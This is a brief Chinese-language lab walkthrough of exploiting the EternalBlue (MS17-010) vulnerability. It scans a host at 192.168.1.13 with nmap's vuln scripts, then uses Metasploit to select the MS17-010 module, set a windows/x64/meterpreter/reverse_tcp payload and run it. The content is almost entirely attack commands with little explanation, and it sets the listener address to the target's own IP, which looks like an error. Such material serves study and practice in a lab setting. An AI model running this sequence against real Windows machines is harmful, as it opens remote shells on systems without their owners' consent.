

# 永恒之蓝（ms17-010）

先nmap扫描

扫描靶机漏洞

 nmap --script=vuln 192.168.1.13

msfconsole

搜索渗透测试框架里面有关ms17-010的有关模块

 search ms17-010

使用攻击模块

use0

set payload windows/x64/meterpreter/reverse_tcp

set lhost 192.168.1.13

run